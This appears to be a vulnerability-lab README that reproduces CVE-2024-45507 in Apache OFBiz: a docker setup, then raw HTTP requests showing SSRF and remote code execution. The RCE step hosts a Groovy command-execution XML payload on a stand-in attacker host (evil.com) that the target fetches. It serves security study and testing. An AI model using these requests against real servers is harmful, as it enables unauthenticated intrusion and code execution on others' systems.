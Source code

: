 # Apache OFBiz SSRF and Remote Code Execution (CVE-2024-45507)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability (CVE-2024-45507) affects Apache OFBiz versions prior to 18.12.16. It allows an unauthenticated attacker to perform Server-Side Request Forgery (SSRF) and potentially achieve remote code execution.

References:

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## Vulnerable environment

Execute the following command to start an Apache OFBiz 18.12.15 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

### Server-Side Request Forgery (SSRF) attack

Send a POST request to `/webtools/control/forgotPassword/StatsSinceStart` with the following request:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

### Remote Code Execution

Create a malicious XML file (payload.xml) on a public server like `http://evil.com/ofbiz/payload.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

Then replace your malicious XML url into following request and send:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```

![](1.png)

The command `touch /tmp/success` will be executed on the target server, demonstrating successful exploitation.

![](2.png)

